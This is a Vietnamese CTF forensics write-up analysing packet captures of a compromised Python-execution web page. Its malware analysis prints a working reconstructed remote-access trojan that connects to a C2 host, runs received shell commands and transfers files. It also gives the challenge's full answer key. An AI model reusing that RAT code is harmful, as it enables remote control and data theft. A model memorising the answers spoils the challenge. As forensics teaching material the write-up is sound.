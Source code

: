 # _TOOLPIE_ _(FORENSICS)_
![image](https://github.com/user-attachments/assets/74acfcd7-04ac-4e90-a6f0-1e72c11cbf41)

Bài cho 1 file pcapng, nhiệm vụ là phân tích và trả lời 6 câu hỏi

![image](https://github.com/user-attachments/assets/22193fd6-4267-4ac5-86b1-ae58bff33835)

Mới đầu vào, mình follow tcp.stream, vì chỉ có 6 luồng nên mình sẽ ngồi phân tích hết

Đầu tiên là stream 0, thấy được 1 GET request từ IP 194.59.6.66 đến 1 HOST: 13.61.177.227, với yêu cả trả về trang chủ của 1 trang web

![image](https://github.com/user-attachments/assets/d6799aef-c939-410e-9124-d48929177495)

Trong phần nav của trang web có 2 liên kết là idex.html và script.html

Kết hợp với đó là mình export objects HTML và save all

![image](https://github.com/user-attachments/assets/495c4f78-8718-4d41-9fbf-11c69d0ca574)

Ta thử truy cập vào script.html xem sao

![image](https://github.com/user-attachments/assets/f7db701e-b46c-4f79-afe4-49318ddfef6b)

Đây giống như là một trang web cho người dùng thực hiện nhập mã Python rồi nhấn Execute để thực thi

Chưa có gì đặc biệt lắm, nên cùng đi đến với stream thứ 1

Tiếp tục là GET request từ 194.59.6.66 đối với server và ở gần cuối có 1 lệnh GET request tới /script.html

![image](https://github.com/user-attachments/assets/9c25a9cc-8506-4dd7-8e63-1c55541000c2)

Khi ng dùng nhập mã và thực thi trên trang này thì nó sẽ gửi 1 yêu cầu POST/execute đến server

Và ngay sau đó là stream 3, vẫn tiếp tục là IP đó đã nhập mã và thực thi, nhìn script Python này uy tín vcl :v

![image](https://github.com/user-attachments/assets/49ab7110-ed45-4025-a8db-7efbd7d0aca3)

Sau đó, stream 4 thì server đã thực hiện gửi ec2amaz-bktvi3e\administrator và có những phản hồi từ 1 IP __khác__ là 13.61.7.128. Đến đây mình sẽ có 1 số nhận định sau

- Thứ nhất, IP chịu trách nhiệm cho việc xâm phạm web của câu hỏi 1 đề cập chắc chắn là 194.59.6.66

```
1. What is the IP address responsible for compromising the website?
Answer: 194.59.6.66
```

- Thứ hai, Attacker có thể đã gửi payload Python độc hại đến /execute, khiến server chạy mã độc. Nên /execute chính là enpoint giúp trả lời cho câu 2
```
2. What is the name of the endpoint exploited by the attacker?
Answer: execute
```

- Thứ ba, IP 13.61.7.128 rất có thể là máy chủ C2 (Command & Control), nơi attacker có thể điều khiển hệ thống đã bị khai thác và ở câu 4 cũng có hỏi liên quan đến C2 nhưng mình nhập không đúng do thiếu port ( mình sẽ phân tích tiếp đoạn này ở bên dưới)

Tiếp theo, mình sẽ đi phân tích ở đoạn mã Python mà attacker đã gửi đi, đoạn script thực thi bị nén marshal, và bz2.

Giải nén xong, mình đã đưa về được file .pyc nhưng kh thể đưa về mã nguồn .py được, sau đó AI có hỗ trợ mình có thể đưa về mã assembly để phân tích

![image](https://github.com/user-attachments/assets/3280d011-54ff-4151-ba77-e9ef660791e0)

Ngồi đọc 1 lúc, thì mình thấy được đáp án cho câu 3

![image](https://github.com/user-attachments/assets/4dfab106-3dcf-4b16-ba7f-606e63da6453)

```
3. What is the name of the obfuscation tool used by the attacker?
Answer: Py-Fuscate
```

Vì mã assembly quá dài, và mình méo hiểu gì nên nhờ AI đưa về .py theo đúng logic

```python
import os, socket, threading, time, random, string
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad

user = os.popen('whoami').read()
BUFFER_SIZE = 4096
SEPARATOR = '<SEPARATOR>'

def enc_mes(mes, key):
    cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
    return cypher.encrypt(pad(mes.encode() if isinstance(mes, str) else mes, 16))

def dec_mes(mes, key):
    if mes == b'': return mes
    cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
    return unpad(cypher.decrypt(mes), 16)

def receive_file(k):
    client2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client2.connect(('13.61.7.218', 54163))
    client2.send(k.encode())
    received = dec_mes(client2.recv(BUFFER_SIZE), k).decode().split(SEPARATOR)
    filename, filesize = received[0], int(received[1])
    client2.send(enc_mes('ok2', k))
    msg = b''
    while len(msg) < filesize:
        msg += client2.recv(BUFFER_SIZE)
    with open(filename, 'wb') as f:
        f.write(dec_mes(msg, k))
    client2.close()

def receive(client, k):
    while True:
        try:
            msg = dec_mes(client.recv(1024), k)
            message = msg.decode()
            if message == 'check':
                client.send(enc_mes('check-ok', k))
            elif message == 'send_file':
                threading.Thread(target=receive_file, args=(k,)).start()
            elif message == 'get_file':
                client.send(enc_mes('ok', k))
                path = dec_mes(client.recv(1024), k).decode()
                with open(path, 'rb') as f:
                    data = enc_mes(f.read(), k)
                client.send(str(len(data)).encode())
                client.recv(1024)
                client.sendall(data)
            elif message:
                answer = os.popen(message).read()
                enc_answer = enc_mes(answer, k)
                client.send(str(len(enc_answer)).encode())
                if client.recv(1024).decode() == 'ok':
                    client.sendall(enc_answer)
        except:
            client.close()
            client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            client.connect(('13.61.7.218', 55155))
            k = ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(16))
            client.send(f"{user}{SEPARATOR}{k}".encode())
            time.sleep(60)

if __name__ == '__main__':
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client.connect(('13.61.7.218', 55155))
    k = ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(16))
    client.send(f"{user}{SEPARATOR}{k}".encode())
    threading.Thread(target=receive, args=(client, k)).start()
```

- Chương trình này là một client kết nối tới một server (có địa chỉ IP và cổng cố định: 13.61.7.218:55155), kết hợp với những phân tích trc đó thì đã có đáp án cho câu 4
```
4. What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server?
Answer: 13.61.7.218:55155
```

Sau khi kết nối tới C2 server xong thì thực hiện:
- Lấy thông tin người dùng thông qua whoami

- Thông tin này được gửi tới server cùng với khóa ngẫu nhiên (user + SEPARATOR + k), k chính là khóa để thực hiện mã hóa AES-CBC như trong script trên. Từ đây có câu trả lời cho câu 5
![image](https://github.com/user-attachments/assets/d5817d64-1180-4afc-bb02-ebb306f4f6b4)

```
5. What encryption key did the attacker use to secure the data?
Answer: 5UUfizsRsP7oOCAq
```

- Dùng AES-CBC để mã hóa dữ liệu gửi đi và giải mã dữ liệu gửi về

Mình sẽ dùng key đó để decrypt dữ liệu gửi đi tại đây là sẽ có đáp án cho câu 6

![giaima](https://github.com/user-attachments/assets/d3d3debb-8be0-49c9-89bc-7710f9dfd44b)

Lấy dữ liệu ở dạng Raw, rồi lưu vào 1 file riêng

Script
```python
from Crypto.Cipher import AES

def decrypt_file(input_file: str, output_file: str, key: str):
    # Đọc dữ liệu đã mã hóa từ file
    with open(input_file, "rb") as f:
        ciphertext = f.read()

    # Sử dụng key.encode() làm IV (giống như quá trình mã hóa)
    iv = key.encode()

    # Tạo đối tượng giải mã AES-CBC
    cipher = AES.new(key.encode(), AES.MODE_CBC, iv)

    # Giải mã dữ liệu
    decrypted_data = cipher.decrypt(ciphertext)

    # Loại bỏ padding (PKCS7)
    pad_len = decrypted_data[-1]
    decrypted_data = decrypted_data[:-pad_len]

    # Ghi kết quả giải mã ra file
    with open(output_file, "wb") as f:
        f.write(decrypted_data)

    print(f"Giải mã thành công! Đã lưu vào {output_file}")

input_file = "anh"   # File chứa dữ liệu đã mã hóa
output_file = "DONE"  # File để lưu dữ liệu sau khi giải mã
key = "5UUfizsRsP7oOCAq"        # Key giống lúc mã hóa

decrypt_file(input_file, output_file, key)
```

![image](https://github.com/user-attachments/assets/054251ed-0b74-4cc6-a8af-d6aa74594979)

Check MD5

![image](https://github.com/user-attachments/assets/fe5dd1f3-65a8-47cf-b9af-8f6553ea7323)

```
6, What is the MD5 hash of the file exfiltrated by the attacker?
Answer: 8fde053c8e79cf7e03599d559f90b321
```

Tổng hợp đáp án

```
1. What is the IP address responsible for compromising the website?
Answer: 194.59.6.66

2. What is the name of the endpoint exploited by the attacker?
Answer: execute

3. What is the name of the obfuscation tool used by the attacker?
Answer: Py-Fuscate

4. What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server?
Answer: 13.61.7.218:55155

5. What encryption key did the attacker use to secure the data?
Answer: 5UUfizsRsP7oOCAq

6, What is the MD5 hash of the file exfiltrated by the attacker?
Answer: 8fde053c8e79cf7e03599d559f90b321
```




